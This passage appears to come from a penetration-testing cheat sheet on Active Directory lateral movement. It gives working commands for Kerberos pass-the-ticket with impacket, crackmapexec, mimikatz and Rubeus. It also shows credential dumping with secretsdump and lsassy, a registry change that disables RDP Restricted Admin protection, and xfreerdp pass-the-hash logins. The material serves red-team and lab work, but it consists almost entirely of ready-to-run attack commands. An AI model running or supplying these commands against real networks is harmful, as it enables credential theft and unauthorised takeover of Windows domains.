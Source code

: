 Linux
```bash
# export the ticket to the enviornment variable so that tools can utilize it.
export KRB5CCNAME=/full/path/to/ticket.ccache
```

Step 2: "Pass" the ticket

Tools can utilize the -k flag to specify a kerberos ticket/authentication. 
This uses the KRB5CCNAME enviornment variable set above. 
To use a different ticket, simply re-export a different ticket.

Some Examples:

Linux:
```bash
# try with -no-pass if you encounter errors
psexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
crackmapexec smb 0.0.0.0 --use-kcache
crackmapexec winrm 0.0.0.0 --use-kcache

lsassy -k $TARGETS
secretsdump.py -k 'DOMAIN/USER@TARGET'
```

Windows:
```powershell
#Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi

#List tickets in cache to cehck that mimikatz has loaded the ticket
klist

.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```

### RDP 

Enable RDP for admin accounts
```bash
enableRDP='reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
cme smb [snip] -x '$enableRDP' 

cme smb [snip] -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:USER /pth:<NTLMHash> /v:HOST 

xfreerdp /d: /u: /pth:HASH /v:HOST /cert-ignore -dynamic-resolution /drive:Verified,/path/to/Verified /timeout:60000
```

